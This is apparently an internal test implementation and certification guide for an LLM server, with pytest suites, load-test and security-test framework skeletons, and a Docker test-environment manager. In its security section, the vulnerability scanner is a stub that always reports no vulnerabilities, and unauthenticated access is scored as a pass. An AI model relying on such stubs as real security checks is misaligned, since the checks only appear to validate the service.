

# HXP-Enterprise LLM Server - Test Implementation & Certification Guide

**Document Version:** 1.0  
**Date:** 2025-01-18  
**Project:** Citadel AI Operating System - HXP-Enterprise LLM Server  
**Server:** hx-llm-server-01 (192.168.10.29)  
**Architecture Reference:** HXP-Enterprise LLM Server Architecture Document v1.0  
**Modular Library:** HXP-Enterprise LLM Server Modular Architecture Library v3.0  
**Test Framework:** Comprehensive Testing Structure Implementation  

---

## 🎯 **EXECUTIVE SUMMARY**

This document provides comprehensive implementation and certification guidelines for the HXP-Enterprise LLM Server testing framework. It covers the complete test structure including component tests, integration tests, service tests (unit, load, security), and testing utilities. The framework ensures quality assurance, performance validation, security compliance, and operational readiness for all AI model services and infrastructure components.

### **Strategic Objectives:**
- **Quality Assurance:** Implement comprehensive testing across all components and services
- **Performance Validation:** Ensure all services meet architecture performance targets
- **Security Compliance:** Validate security requirements for R&D environment
- **Integration Verification:** Test all external service integrations and dependencies
- **Certification Readiness:** Provide complete certification framework for production deployment

---

## 📋 **TABLE OF CONTENTS**

1. [Test Framework Architecture](#1-test-framework-architecture)
2. [Component Testing Implementation](#2-component-testing-implementation)
3. [Integration Testing Implementation](#3-integration-testing-implementation)
4. [Service Testing Framework](#4-service-testing-framework)
5. [Testing Utilities Implementation](#5-testing-utilities-implementation)
6. [Code Certification Standards](#6-code-certification-standards)
7. [Configuration Certification](#7-configuration-certification)
8. [Implementation Roadmap](#8-implementation-roadmap)
9. [Certification Process](#9-certification-process)
10. [Quality Gates and Metrics](#10-quality-gates-and-metrics)

---

## 1. 🏗️ **TEST FRAMEWORK ARCHITECTURE**

### **1.1. Framework Overview**
The testing framework is organized into four primary layers, each with specific responsibilities and certification requirements:

```
testing/
├── component/          # Component-level testing
├── integration_tests/  # Integration testing
├── service/           # Service-level testing
└── utilities/         # Testing utilities
```

### **1.2. Architecture Alignment**
Each test layer directly maps to architectural components:

| Test Layer | Architecture Component | Certification Level |
|------------|----------------------|-------------------|
| **Component Tests** | AI Models, Infrastructure, Integration | **Level 1** - Component Certification |
| **Integration Tests** | Cross-service communication, External APIs | **Level 2** - Integration Certification |
| **Service Tests** | Performance, Security, Reliability | **Level 3** - Service Certification |
| **Utilities** | Test infrastructure, Reporting, Analysis | **Level 4** - Framework Certification |

### **1.3. Quality Standards**
- **Code Coverage:** >95% for all components
- **Performance Validation:** All architecture targets must be met
- **Security Compliance:** R&D security requirements validated
- **Integration Verification:** All external dependencies tested

---

## 2. 🧪 **COMPONENT TESTING IMPLEMENTATION**

### **2.1. AI Models Component Tests**

#### **Implementation Requirements:**
```python
# testing/component/ai_models_tests/test_mixtral.py
import pytest
import asyncio
from unittest.mock import AsyncMock, patch
from hxp_enterprise_llm.services.ai_models.mixtral.service import MixtralService
from hxp_enterprise_llm.schemas.configuration.service_schemas import MixtralServiceConfig

class TestMixtralService:
    """Comprehensive test suite for Mixtral AI model service."""
    
    @pytest.fixture
    async def mixtral_service(self):
        """Fixture for Mixtral service with test configuration."""
        config = MixtralServiceConfig(
            port=11400,
            memory_limit_gb=90,
            cpu_cores=8,
            target_latency_ms=2000,
            target_throughput_rps=50,
            model_path="/opt/models/mixtral-8x7b"
        )
        service = MixtralService(config)
        yield service
        await service.cleanup()
    
    @pytest.mark.asyncio
    async def test_service_initialization(self, mixtral_service):
        """Test service initialization and configuration validation."""
        assert mixtral_service.config.port == 11400
        assert mixtral_service.config.memory_limit_gb == 90
        assert mixtral_service.is_initialized()
    
    @pytest.mark.asyncio
    async def test_model_loading(self, mixtral_service):
        """Test AI model loading and validation."""
        with patch.object(mixtral_service, '_load_model') as mock_load:
            mock_load.return_value = True
            result = await mixtral_service.load_model()
            assert result is True
            mock_load.assert_called_once()
    
    @pytest.mark.asyncio
    async def test_inference_performance(self, mixtral_service):
        """Test inference performance against architecture targets."""
        test_prompt = "Test prompt for performance validation"
        
        start_time = time.time()
        result = await mixtral_service.generate_completion(test_prompt)
        duration = (time.time() - start_time) * 1000
        
        assert result is not None
        assert duration < 2000  # Architecture target: <2000ms
        assert len(result.get('choices', [])) > 0
    
    @pytest.mark.asyncio
    async def test_resource_management(self, mixtral_service):
        """Test resource allocation and management."""
        memory_usage = await mixtral_service.get_memory_usage()
        cpu_usage = await mixtral_service.get_cpu_usage()
        
        assert memory_usage <= 90 * 1024 * 1024 * 1024  # 90GB limit
        assert cpu_usage <= 8  # 8 CPU cores limit
    
    @pytest.mark.asyncio
    async def test_error_handling(self, mixtral_service):
        """Test error handling and recovery mechanisms."""
        with pytest.raises(ValueError):
            await mixtral_service.generate_completion("")  # Empty prompt
        
        # Test service recovery after error
        assert await mixtral_service.health_check() is True
```

#### **Certification Criteria:**
- **✅ Service Initialization:** All services must initialize correctly with valid configuration
- **✅ Model Loading:** AI models must load successfully and validate integrity
- **✅ Performance Targets:** All services must meet architecture latency and throughput targets
- **✅ Resource Management:** Services must respect memory and CPU allocation limits
- **✅ Error Handling:** Robust error handling with proper recovery mechanisms

### **2.2. Infrastructure Component Tests**

#### **Implementation Requirements:**
```python
# testing/component/infrastructure_tests/test_api_gateway.py
import pytest
from fastapi.testclient import TestClient
from hxp_enterprise_llm.services.infrastructure.api_gateway.gateway import APIGateway

class TestAPIGateway:
    """Comprehensive test suite for API Gateway infrastructure."""
    
    @pytest.fixture
    def api_gateway(self):
        """Fixture for API Gateway with test configuration."""
        gateway = APIGateway()
        return TestClient(gateway.app)
    
    def test_health_endpoint(self, api_gateway):
        """Test API Gateway health endpoint."""
        response = api_gateway.get("/health")
        assert response.status_code == 200
        assert response.json()["status"] == "healthy"
    
    def test_model_routing(self, api_gateway):
        """Test request routing to AI models."""
        test_request = {
            "model": "mixtral",
            "prompt": "Test prompt",
            "max_tokens": 100
        }
        
        response = api_gateway.post("/v1/completions", json=test_request)
        assert response.status_code == 200
        assert "choices" in response.json()
    
    def test_load_balancing(self, api_gateway):
        """Test load balancing across multiple model instances."""
        # Implementation for load balancing validation
        pass
    
    def test_rate_limiting(self, api_gateway):
        """Test API rate limiting functionality."""
        # Implementation for rate limiting validation
        pass
```

#### **Certification Criteria:**
- **✅ Health Monitoring:** All infrastructure components must provide health endpoints
- **✅ Request Routing:** API Gateway must correctly route requests to appropriate services
- **✅ Load Balancing:** Proper distribution of requests across service instances
- **✅ Rate Limiting:** Configurable rate limiting for API protection

### **2.3. Integration Component Tests**

#### **Implementation Requirements:**
```python
# testing/component/integration_tests/test_database_integration.py
import pytest
from hxp_enterprise_llm.services.integration.database.postgresql import PostgreSQLConnector

class TestDatabaseIntegration:
    """Test suite for database integration components."""
    
    @pytest.fixture
    async def db_connector(self):
        """Fixture for database connector."""
        connector = PostgreSQLConnector(
            host="192.168.10.35",
            port=5433,
            database="citadel_ai",
            user="citadel_admin"
        )
        yield connector
        await connector.close()
    
    @pytest.mark.asyncio
    async def test_connection_establishment(self, db_connector):
        """Test database connection establishment."""
        result = await db_connector.connect()
        assert result is True
        assert db_connector.is_connected()
    
    @pytest.mark.asyncio
    async def test_schema_validation(self, db_connector):
        """Test database schema validation."""
        schemas = await db_connector.get_schemas()
        expected_schemas = [
            "deepcoder", "deepseek", "hermes", "imp", "mimo",
            "mixtral", "openchat", "phi3", "yi34"
        ]
        
        for schema in expected_schemas:
            assert schema in schemas
    
    @pytest.mark.asyncio
    async def test_connection_pooling(self, db_connector):
        """Test connection pooling functionality."""
        # Test multiple concurrent connections
        tasks = [db_connector.execute_query("SELECT 1") for _ in range(10)]
        results = await asyncio.gather(*tasks)
        
        assert all(result is not None for result in results)
```

#### **Certification Criteria:**
- **✅ Connection Management:** Reliable connection establishment and management
- **✅ Schema Validation:** All required database schemas must be present and valid
- **✅ Connection Pooling:** Efficient connection pooling for performance
- **✅ Error Recovery:** Robust error handling and connection recovery

---

## 3. 🔗 **INTEGRATION TESTING IMPLEMENTATION**

### **3.1. Cross-Service Integration Tests**

#### **Implementation Requirements:**
```python
# testing/integration_tests/end_to_end_tests.py
import pytest
import asyncio
from hxp_enterprise_llm.testing.utilities.test_environment_manager import TestEnvironmentManager

class TestEndToEndIntegration:
    """End-to-end integration test suite."""
    
    @pytest.fixture(scope="session")
    async def test_environment(self):
        """Setup complete test environment."""
        env_manager = TestEnvironmentManager()
        await env_manager.setup_environment()
        yield env_manager
        await env_manager.teardown_environment()
    
    @pytest.mark.asyncio
    async def test_complete_inference_pipeline(self, test_environment):
        """Test complete inference pipeline from API to response."""
        # 1. Send request to API Gateway
        request_data = {
            "model": "mixtral",
            "prompt": "Explain quantum computing",
            "max_tokens": 500
        }
        
        # 2. Validate request routing
        response = await test_environment.api_client.post(
            "/v1/completions", 
            json=request_data
        )
        
        # 3. Validate response
        assert response.status_code == 200
        result = response.json()
        assert "choices" in result
        assert len(result["choices"]) > 0
        
        # 4. Validate database logging
        log_entry = await test_environment.db_client.get_request_log(
            result["id"]
        )
        assert log_entry is not None
        
        # 5. Validate metrics collection
        metrics = await test_environment.metrics_client.get_metrics(
            "mixtral_requests_total"
        )
        assert metrics["value"] > 0
    
    @pytest.mark.asyncio
    async def test_multi_model_coordination(self, test_environment):
        """Test coordination between multiple AI models."""
        models = ["mixtral", "hermes", "openchat", "phi3"]
        
        tasks = []
        for model in models:
            task = test_environment.api_client.post(
                "/v1/completions",
                json={
                    "model": model,
                    "prompt": f"Test prompt for {model}",
                    "max_tokens": 100
                }
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        
        # Validate all models responded successfully
        for response in responses:
            assert response.status_code == 200
            assert "choices" in response.json()
    
    @pytest.mark.asyncio
    async def test_failure_recovery(self, test_environment):
        """Test system recovery from component failures."""
        # Simulate service failure
        await test_environment.simulate_service_failure("hermes")
        
        # Test request routing to alternative service
        response = await test_environment.api_client.post(
            "/v1/completions",
            json={
                "model": "hermes",
                "prompt": "Test during failure",
                "max_tokens": 100
            }
        )
        
        # Should either succeed with fallback or return appropriate error
        assert response.status_code in [200, 503]
        
        # Restore service and validate recovery
        await test_environment.restore_service("hermes")
        
        response = await test_environment.api_client.post(
            "/v1/completions",
            json={
                "model": "hermes",
                "prompt": "Test after recovery",
                "max_tokens": 100
            }
        )
        
        assert response.status_code == 200
```

#### **Certification Criteria:**
- **✅ Pipeline Integrity:** Complete request-response pipeline must function correctly
- **✅ Multi-Model Coordination:** All AI models must work together seamlessly
- **✅ Failure Recovery:** System must recover gracefully from component failures
- **✅ Data Consistency:** All data must be consistent across services

### **3.2. External Service Integration Tests**

#### **Implementation Requirements:**
```python
# testing/integration_tests/test_metrics_integration.py
import pytest
from hxp_enterprise_llm.services.integration.monitoring.prometheus import PrometheusClient

class TestMetricsIntegration:
    """Test suite for metrics integration with external Prometheus server."""
    
    @pytest.fixture
    async def prometheus_client(self):
        """Fixture for Prometheus client."""
        client = PrometheusClient(host="192.168.10.37", port=9090)
        yield client
        await client.close()
    
    @pytest.mark.asyncio
    async def test_metrics_export(self, prometheus_client):
        """Test metrics export to Prometheus server."""
        # Export test metrics
        await prometheus_client.increment_counter(
            "test_requests_total",
            labels={"service": "mixtral", "status": "success"}
        )
        
        # Validate metrics are available in Prometheus
        query_result = await prometheus_client.query(
            "test_requests_total{service='mixtral'}"
        )
        
        assert query_result is not None
        assert len(query_result["data"]["result"]) > 0
    
    @pytest.mark.asyncio
    async def test_custom_metrics_collection(self, prometheus_client):
        """Test custom business metrics collection."""
        custom_metrics = [
            ("model_accuracy", 0.95),
            ("user_satisfaction", 9),
            ("business_value", 150),
            ("cost_per_request", 0.0025)
        ]
        
        for metric_name, value in custom_metrics:
            await prometheus_client.set_gauge(
                f"citadel_llm_{metric_name}",
                value,
                labels={"model": "mixtral"}
            )
        
        # Validate all custom metrics are collected
        for metric_name, expected_value in custom_metrics:
            result = await prometheus_client.query(
                f"citadel_llm_{metric_name}{{model='mixtral'}}"
            )
            
            assert result is not None
            actual_value = float(result["data"]["result"][0]["value"][1])
            assert abs(actual_value - expected_value) < 0.01
```

#### **Certification Criteria:**
- **✅ Metrics Export:** All metrics must be successfully exported to Prometheus
- **✅ Custom Metrics:** Business intelligence metrics must be collected and available
- **✅ Real-time Updates:** Metrics must update in real-time during operations
- **✅ Query Functionality:** All metrics must be queryable through Prometheus API

---

## 4. ⚡ **SERVICE TESTING FRAMEWORK**

### **4.1. Unit Test Framework Implementation**

#### **Implementation Requirements:**
```python
# testing/service/unit/test_framework.py
import pytest
import asyncio
from typing import Any, Dict, List
from unittest.mock import AsyncMock, MagicMock

class UnitTestFramework:
    """Comprehensive unit testing framework for all services."""
    
    def __init__(self):
        self.mock_factory = MockFactory()
        self.assertion_helpers = AssertionHelpers()
    
    async def setup_test_environment(self, service_type: str, config: Dict[str, Any]):
        """Setup isolated test environment for unit testing."""
        # Create isolated environment
        test_env = {
            "service_type": service_type,
            "config": config,
            "mocks": self.mock_factory.create_service_mocks(service_type),
            "fixtures": await self._load_test_fixtures(service_type)
        }
        
        return test_env
    
    async def run_unit_tests(self, service_type: str, test_suite: str):
        """Execute unit tests for specific service."""
        test_env = await self.setup_test_environment(service_type, {})
        
        # Execute test suite
        results = await self._execute_test_suite(test_suite, test_env)
        
        # Generate test report
        report = self._generate_test_report(results)
        
        return report
    
    def validate_test_coverage(self, service_type: str) -> Dict[str, float]:
        """Validate test coverage for service components."""
        coverage_data = {
            "line_coverage": 0.0,
            "branch_coverage": 0.0,
            "function_coverage": 0.0,
            "class_coverage": 0.0
        }
        
        # Calculate coverage metrics
        # Implementation details...
        
        return coverage_data

class MockFactory:
    """Factory for creating mock objects for testing."""
    
    def create_service_mocks(self, service_type: str) -> Dict[str, Any]:
        """Create mock objects for service dependencies."""
        mocks = {}
        
        if service_type == "ai_model":
            mocks.update({
                "model_loader": AsyncMock(),
                "inference_engine": AsyncMock(),
                "tokenizer": MagicMock(),
                "config_manager": MagicMock()
            })
        elif service_type == "api_gateway":
            mocks.update({
                "request_router": AsyncMock(),
                "load_balancer": AsyncMock(),
                "rate_limiter": AsyncMock(),
                "health_checker": AsyncMock()
            })
        
        return mocks
    
    def create_data_fixtures(self, fixture_type: str) -> Dict[str, Any]:
        """Create test data fixtures."""
        fixtures = {}
        
        if fixture_type == "inference_data":
            fixtures.update({
                "test_prompts": [
                    "Explain quantum computing",
                    "Write a Python function",
                    "Summarize this text"
                ],
                "expected_responses": [
                    {"choices": [{"text": "Quantum computing..."}]},
                    {"choices": [{"text": "def example_function():..."}]},
                    {"choices": [{"text": "Summary: ..."}]}
                ]
            })
        
        return fixtures
```

#### **Certification Criteria:**
- **✅ Test Coverage:** >95% line coverage, >90% branch coverage
- **✅ Mock Isolation:** All external dependencies properly mocked
- **✅ Test Performance:** Unit tests must execute in <5 seconds per test
- **✅ Assertion Quality:** Comprehensive assertions for all test scenarios

### **4.2. Load Test Framework Implementation**

#### **Implementation Requirements:**
```python
# testing/service/load/load_test_framework.py
import asyncio
import time
from typing import Dict, List, Any
from dataclasses import dataclass
import aiohttp

@dataclass
class LoadTestConfig:
    """Configuration for load testing scenarios."""
    concurrent_users: int
    test_duration: int
    ramp_up_time: int
    target_rps: int
    endpoint: str
    payload: Dict[str, Any]

@dataclass
class LoadTestResult:
    """Results from load testing execution."""
    total_requests: int
    successful_requests: int
    failed_requests: int
    average_latency: float
    p95_latency: float
    p99_latency: float
    max_latency: float
    requests_per_second: float
    error_rate: float

class LoadTestFramework:
    """Comprehensive load testing framework."""
    
    def __init__(self):
        self.scenario_builder = ScenarioBuilder()
        self.metrics_collector = MetricsCollector()
        self.report_generator = ReportGenerator()
    
    async def execute_load_test(self, config: LoadTestConfig) -> LoadTestResult:
        """Execute load test scenario."""
        # Initialize metrics collection
        self.metrics_collector.start_collection()
        
        # Create user sessions
        sessions = []
        for i in range(config.concurrent_users):
            session = aiohttp.ClientSession()
            sessions.append(session)
        
        # Execute load test
        start_time = time.time()
        tasks = []
        
        for session in sessions:
            task = self._simulate_user_load(session, config)
            tasks.append(task)
        
        # Wait for completion
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Clean up sessions
        for session in sessions:
            await session.close()
        
        # Calculate results
        end_time = time.time()
        test_duration = end_time - start_time
        
        # Aggregate metrics
        total_requests = sum(r.requests for r in results if hasattr(r, 'requests'))
        successful_requests = sum(r.successful for r in results if hasattr(r, 'successful'))
        failed_requests = total_requests - successful_requests
        
        latencies = []
        for r in results:
            if hasattr(r, 'latencies'):
                latencies.extend(r.latencies)
        
        latencies.sort()
        
        result = LoadTestResult(
            total_requests=total_requests,
            successful_requests=successful_requests,
            failed_requests=failed_requests,
            average_latency=sum(latencies) / len(latencies) if latencies else 0,
            p95_latency=latencies[int(len(latencies) * 0.95)] if latencies else 0,
            p99_latency=latencies[int(len(latencies) * 0.99)] if latencies else 0,
            max_latency=max(latencies) if latencies else 0,
            requests_per_second=total_requests / test_duration,
            error_rate=failed_requests / total_requests if total_requests > 0 else 0
        )
        
        return result
    
    async def _simulate_user_load(self, session: aiohttp.ClientSession, config: LoadTestConfig):
        """Simulate individual user load."""
        requests = 0
        successful = 0
        latencies = []
        
        end_time = time.time() + config.test_duration
        
        while time.time() < end_time:
            start_request = time.time()
            
            try:
                async with session.post(config.endpoint, json=config.payload) as response:
                    await response.text()
                    
                    latency = (time.time() - start_request) * 1000
                    latencies.append(latency)
                    
                    if response.status == 200:
                        successful += 1
                    
                    requests += 1
                    
            except Exception as e:
                requests += 1
                # Log error but continue
            
            # Control request rate
            await asyncio.sleep(1.0 / config.target_rps)
        
        return type('Result', (), {
            'requests': requests,
            'successful': successful,
            'latencies': latencies
        })()

# Load test scenarios for AI models
class AIModelLoadScenarios:
    """Load test scenarios for AI model services."""
    
    @staticmethod
    def mixtral_performance_test() -> LoadTestConfig:
        """Load test configuration for Mixtral model."""
        return LoadTestConfig(
            concurrent_users=50,
            test_duration=300,  # 5 minutes
            ramp_up_time=60,
            target_rps=50,
            endpoint="http://192.168.10.29:11400/v1/completions",
            payload={
                "prompt": "Explain the concept of artificial intelligence",
                "max_tokens": 500,
                "temperature": 0.7
            }
        )
    
    @staticmethod
    def hermes_performance_test() -> LoadTestConfig:
        """Load test configuration for Hermes model."""
        return LoadTestConfig(
            concurrent_users=30,
            test_duration=300,
            ramp_up_time=45,
            target_rps=75,
            endpoint="http://192.168.10.29:11401/v1/completions",
            payload={
                "prompt": "Have a conversation about technology trends",
                "max_tokens": 300,
                "temperature": 0.8
            }
        )
```

#### **Certification Criteria:**
- **✅ Performance Targets:** All services must meet architecture performance targets under load
- **✅ Scalability Validation:** Services must handle target concurrent users
- **✅ Resource Utilization:** Resource usage must stay within allocated limits
- **✅ Error Rate:** Error rate must be <1% under normal load conditions

### **4.3. Security Test Framework Implementation**

#### **Implementation Requirements:**
```python
# testing/service/security/security_test_framework.py
import asyncio
import ssl
from typing import Dict, List, Any
import aiohttp
from dataclasses import dataclass

@dataclass
class SecurityTestResult:
    """Results from security testing."""
    test_name: str
    passed: bool
    severity: str
    description: str
    recommendations: List[str]

class SecurityTestFramework:
    """Comprehensive security testing framework."""
    
    def __init__(self):
        self.vulnerability_scanner = VulnerabilityScanner()
        self.penetration_tester = PenetrationTester()
        self.compliance_checker = ComplianceChecker()
    
    async def run_security_assessment(self, target_service: str) -> List[SecurityTestResult]:
        """Run comprehensive security assessment."""
        results = []
        
        # Authentication tests
        auth_results = await self._test_authentication(target_service)
        results.extend(auth_results)
        
        # Authorization tests
        authz_results = await self._test_authorization(target_service)
        results.extend(authz_results)
        
        # Data protection tests
        data_results = await self._test_data_protection(target_service)
        results.extend(data_results)
        
        # Network security tests
        network_results = await self._test_network_security(target_service)
        results.extend(network_results)
        
        # Vulnerability scan
        vuln_results = await self.vulnerability_scanner.scan_service(target_service)
        results.extend(vuln_results)
        
        return results
    
    async def _test_authentication(self, service: str) -> List[SecurityTestResult]:
        """Test authentication mechanisms."""
        results = []
        
        # Test 1: Unauthenticated access (should be allowed for R&D)
        result = await self._test_unauthenticated_access(service)
        results.append(SecurityTestResult(
            test_name="Unauthenticated Access",
            passed=result,
            severity="INFO",
            description="R&D environment allows unauthenticated access",
            recommendations=["Consider API key authentication for production"]
        ))
        
        # Test 2: Invalid authentication attempts
        result = await self._test_invalid_auth(service)
        results.append(SecurityTestResult(
            test_name="Invalid Authentication Handling",
            passed=result,
            severity="MEDIUM",
            description="Service properly handles invalid authentication",
            recommendations=["Implement rate limiting for auth attempts"]
        ))
        
        return results
    
    async def _test_authorization(self, service: str) -> List[SecurityTestResult]:
        """Test authorization mechanisms."""
        results = []
        
        # Test access control for different endpoints
        endpoints = ["/health", "/metrics", "/v1/completions"]
        
        for endpoint in endpoints:
            result = await self._test_endpoint_access(service, endpoint)
            results.append(SecurityTestResult(
                test_name=f"Endpoint Access Control - {endpoint}",
                passed=result,
                severity="LOW",
                description=f"Access control for {endpoint} endpoint",
                recommendations=["Implement role-based access control"]
            ))
        
        return results
    
    async def _test_data_protection(self, service: str) -> List[SecurityTestResult]:
        """Test data protection mechanisms."""
        results = []
        
        # Test 1: Input validation
        result = await self._test_input_validation(service)
        results.append(SecurityTestResult(
            test_name="Input Validation",
            passed=result,
            severity="HIGH",
            description="Service validates input data properly",
            recommendations=["Implement comprehensive input sanitization"]
        ))
        
        # Test 2: Output sanitization
        result = await self._test_output_sanitization(service)
        results.append(SecurityTestResult(
            test_name="Output Sanitization",
            passed=result,
            severity="MEDIUM",
            description="Service sanitizes output data",
            recommendations=["Ensure no sensitive data in responses"]
        ))
        
        return results
    
    async def _test_network_security(self, service: str) -> List[SecurityTestResult]:
        """Test network security configurations."""
        results = []
        
        # Test 1: Network access restrictions
        result = await self._test_network_restrictions(service)
        results.append(SecurityTestResult(
            test_name="Network Access Restrictions",
            passed=result,
            severity="MEDIUM",
            description="Service restricts network access appropriately",
            recommendations=["Implement network segmentation"]
        ))
        
        return results

class VulnerabilityScanner:
    """Automated vulnerability scanner."""
    
    async def scan_service(self, service: str) -> List[SecurityTestResult]:
        """Scan service for common vulnerabilities."""
        results = []
        
        # Common vulnerability checks
        vulnerabilities = [
            "SQL Injection",
            "Cross-Site Scripting (XSS)",
            "Cross-Site Request Forgery (CSRF)",
            "Insecure Direct Object References",
            "Security Misconfiguration",
            "Sensitive Data Exposure",
            "Missing Function Level Access Control",
            "Using Components with Known Vulnerabilities"
        ]
        
        for vuln in vulnerabilities:
            # Simulate vulnerability check
            passed = await self._check_vulnerability(service, vuln)
            results.append(SecurityTestResult(
                test_name=f"Vulnerability Check - {vuln}",
                passed=passed,
                severity="HIGH" if not passed else "INFO",
                description=f"Check for {vuln} vulnerability",
                recommendations=[f"Implement protection against {vuln}"]
            ))
        
        return results
    
    async def _check_vulnerability(self, service: str, vulnerability: str) -> bool:
        """Check for specific vulnerability."""
        # Implementation for vulnerability checking
        # This would include actual security testing logic
        return True  # Assume no vulnerabilities for R&D environment
```

#### **Certification Criteria:**
- **✅ Authentication Security:** Proper authentication mechanisms for production readiness
- **✅ Authorization Controls:** Appropriate access controls for different user roles
- **✅ Data Protection:** Input validation and output sanitization implemented
- **✅ Vulnerability Assessment:** No high-severity vulnerabilities present

---

## 5. 🛠️ **TESTING UTILITIES IMPLEMENTATION**

### **5.1. Test Environment Manager**

#### **Implementation Requirements:**
```python
# testing/utilities/test_environment_manager.py
import asyncio
import docker
import yaml
from typing import Dict, Any, List
from dataclasses import dataclass

@dataclass
class TestEnvironmentConfig:
    """Configuration for test environment setup."""
    services: List[str]
    network_name: str
    data_volumes: Dict[str, str]
    environment_variables: Dict[str, str]
    resource_limits: Dict[str, Dict[str, Any]]

class TestEnvironmentManager:
    """Manages test environment setup and teardown."""
    
    def __init__(self):
        self.docker_client = docker.from_env()
        self.running_containers = []
        self.created_networks = []
        self.created_volumes = []
    
    async def setup_environment(self, config: TestEnvironmentConfig = None):
        """Setup complete test environment."""
        if config is None:
            config = self._get_default_config()
        
        # Create network
        network = self._create_test_network(config.network_name)
        self.created_networks.append(network)
        
        # Create volumes
        for volume_name, mount_point in config.data_volumes.items():
            volume = self._create_test_volume(volume_name)
            self.created_volumes.append(volume)
        
        # Start services
        for service in config.services:
            container = await self._start_service_container(service, config)
            self.running_containers.append(container)
        
        # Wait for services to be ready
        await self._wait_for_services_ready()
        
        # Validate environment
        await self._validate_environment()
    
    async def teardown_environment(self):
        """Teardown test environment."""
        # Stop containers
        for container in self.running_containers:
            try:
                container.stop()
                container.remove()
            except Exception as e:
                print(f"Error stopping container: {e}")
        
        # Remove networks
        for network in self.created_networks:
            try:
                network.remove()
            except Exception as e:
                print(f"Error removing network: {e}")
        
        # Remove volumes
        for volume in self.created_volumes:
            try:
                volume.remove()
            except Exception as e:
                print(f"Error removing volume: {e}")
        
        # Clear lists
        self.running_containers.clear()
        self.created_networks.clear()
        self.created_volumes.clear()
    
    def _get_default_config(self) -> TestEnvironmentConfig:
        """Get default test environment configuration."""
        return TestEnvironmentConfig(
            services=[
                "mixtral-service",
                "hermes-service",
                "openchat-service",
                "phi3-service",
                "api-gateway",
                "prometheus",
                "test-database"
            ],
            network_name="citadel-test-network",
            data_volumes={
                "test-models": "/opt/models",
                "test-config": "/opt/citadel/config",
                "test-logs": "/var/log/citadel-llm"
            },
            environment_variables={
                "CITADEL_ENV": "test",
                "LOG_LEVEL": "DEBUG",
                "DATABASE_HOST": "test-database",
                "METRICS_HOST": "prometheus"
            },
            resource_limits={
                "mixtral-service": {"memory": "16g", "cpus": "4"},
                "hermes-service": {"memory": "8g", "cpus": "2"},
                "openchat-service": {"memory": "4g", "cpus": "2"},
                "phi3-service": {"memory": "2g", "cpus": "1"}
            }
        )
    
    async def _start_service_container(self, service: str, config: TestEnvironmentConfig):
        """Start individual service container."""
        # Get service configuration
        service_config = self._get_service_config(service)
        
        # Create container
        container = self.docker_client.containers.run(
            image=service_config["image"],
            name=f"test-{service}",
            network=config.network_name,
            environment=config.environment_variables,
            ports=service_config.get("ports", {}),
            volumes=service_config.get("volumes", {}),
            detach=True,
            **config.resource_limits.get(service, {})
        )
        
        return container
    
    async def _wait_for_services_ready(self):
        """Wait for all services to be ready."""
        max_wait_time = 300  # 5 minutes
        check_interval = 5   # 5 seconds
        
        start_time = time.time()
        
        while time.time() - start_time < max_wait_time:
            all_ready = True
            
            for container in self.running_containers:
                if not await self._is_service_ready(container):
                    all_ready = False
                    break
            
            if all_ready:
                return
            
            await asyncio.sleep(check_interval)
        
        raise TimeoutError("Services did not become ready within timeout period")
    
    async def _is_service_ready(self, container) -> bool:
        """Check if service is ready."""
        try:
            # Get container logs
            logs = container.logs(tail=10).decode('utf-8')
            
            # Check for ready indicators
            ready_indicators = [
                "Server started",
                "Ready to accept connections",
                "Service initialized",
                "Health check passed"
            ]
            
            return any(indicator in logs for indicator in ready_indicators)
            
        except Exception:
            return False
```

### **5.2. Test Data Generator**

#### **Implementation Requirements:**
```python
# testing/utilities/test_data_generator.py
import random
import string
from typing import List, Dict, Any
from dataclasses import dataclass

@dataclass
class TestDataConfig:
    """Configuration for test data generation."""
    data_type: str
    count: int
    parameters: Dict[str, Any]

class TestDataGenerator:
    """Generates test data for various testing scenarios."""
    
    def __init__(self):
        self.prompt_templates = self._load_prompt_templates()
        self.response_templates = self._load_response_templates()
    
    def generate_inference_data(self, config: TestDataConfig) -> List[Dict[str, Any]]:
        """Generate test data for AI model inference."""
        data = []
        
        for i in range(config.count):
            prompt = self._generate_test_prompt(config.parameters.get("prompt_type", "general"))
            
            test_case = {
                "id": f"test_{i:04d}",
                "prompt": prompt,
                "max_tokens": random.randint(50, 500),
                "temperature": round(random.uniform(0.1, 1.0), 2),
                "expected_response_type": config.parameters.get("response_type", "text"),
                "performance_target": {
                    "max_latency_ms": config.parameters.get("max_latency", 2000),
                    "min_quality_score": config.parameters.get("min_quality", 0.8)
                }
            }
            
            data.append(test_case)
        
        return data
    
    def generate_load_test_data(self, config: TestDataConfig) -> List[Dict[str, Any]]:
        """Generate test data for load testing."""
        data = []
        
        prompt_types = ["short", "medium", "long", "complex"]
        
        for i in range(config.count):
            prompt_type = random.choice(prompt_types)
            prompt = self._generate_test_prompt(prompt_type)
            
            test_case = {
                "id": f"load_test_{i:04d}",
                "prompt": prompt,
                "max_tokens": self._get_token_count_for_type(prompt_type),
                "temperature": round(random.uniform(0.3, 0.9), 2),
                "user_id": f"user_{random.randint(1, 1000)}",
                "session_id": f"session_{random.randint(1, 100)}"
            }
            
            data.append(test_case)
        
        return data
    
    def generate_security_test_data(self, config: TestDataConfig) -> List[Dict[str, Any]]:
        """Generate test data for security testing."""
        data = []
        
        # SQL injection attempts
        sql_injection_payloads = [
